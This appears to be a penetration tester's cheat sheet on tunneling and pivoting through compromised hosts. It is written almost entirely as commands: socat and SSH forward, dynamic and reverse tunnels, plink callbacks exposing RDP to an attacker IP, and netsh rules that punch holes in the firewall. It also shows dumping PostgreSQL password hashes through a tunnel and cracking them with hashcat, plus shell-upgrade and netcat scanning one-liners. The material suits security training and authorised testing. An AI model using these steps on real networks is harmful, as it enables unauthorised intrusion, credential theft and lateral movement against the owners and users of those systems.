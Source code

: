 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

#### Ssh forward tunnel

```
DmzHost$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

#### Ssh dynamic tunnel

```
DmzHost$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpWindows/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpWindows
```

#### Ssh reverse tunnel

```
hackeduser@hackedtarget$ sh -N -R 127.0.0.1:$KaliPort:$IpDbIn:$PortDbIn user@IpAttacker # Only Kali will be able to use this tunnel...
hackeduser@hackedtarget$ sh -N -R 0.0.0.0:$KaliPort:$IpDmzIn:$PortDmzIn user@IpAttacker # All IPs will be able to connect through $KaliPort on the Kali box
```
Check with `ss -lntpu` on Kali. Example of connection with PostGreSQL:
```
kali$ psql -h 127.0.0.1 -p $KaliPort -U postgre_user
```
then on the DB, as usual:
```
postgre=# \l
postgre=# \c some_database
postgre=# select * from some_table ;
```

#### Ssh dynamic reverse tunnel

```
hackeduser@hackedtarget$ ssh -N -R $KaliPort kaliuser@IpAttacker
```
then check with `ss -lntpu`, prepare a socks proxy on `/etc/proxychains4.conf`:
```
...
socks5 127.0.0.1 $KaliPort
```
and scan the new target:
```
kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n $NewTargetIp
```

#### Sshuttle

On the target:
```
hackeduser@hackedtarget$ socat TCP-LISTEN:2222,fork TCP:$IpDbIn:22
```
then run the sshuttle on Kali:
```
kali$ sshuttle -r db_user@IpDmzOut:2222 a.b.c.0/24 aa.bb.cc.0/24 # $IpDbOut subnet to $IpWindows subnet
```
and test
```
kali$ smbclient -L //$IpWindows/ -U some_user --password=some_pass
```

### Windows

#### Ssh.exe

With an ssh binary on Windows, tunnel work in the same way:
```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions # for example: `proxychains psql -h $IpDbOut -U postgre_user`
Kali$ proxychains nmap -vvv -p $a-$b -sT -Pn -n $IpDmzInOtherTarget
```

#### Plink

Upload Plink on the target with an Apache webserver: `/usr/share/windows-resources/binaries/plink.exe`
```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

No-TTY like case:
```
rshellcmd> cmd.exe /c echo y | .\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
```

#### Netsh

On the Windows target, poke a firewall hole with Netsh by adding a portproxy rule (forwarding):
```
cmd> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDbOut
```
and check:
```
cmd> netstat -anp TCP | find "2222"
cmd> netsh interface portproxy show all
```
then open the port (hole):
```
cmd> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
```
Connect from Kali:
```
kali$ ssh user@$IpDmzOut -p2222
```
and when done, clean the hole:
```
cmd> netsh advfirewall firewall delete rule name="my_rule_name"
cmd> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
cmd> netsh interface portproxy show all
```



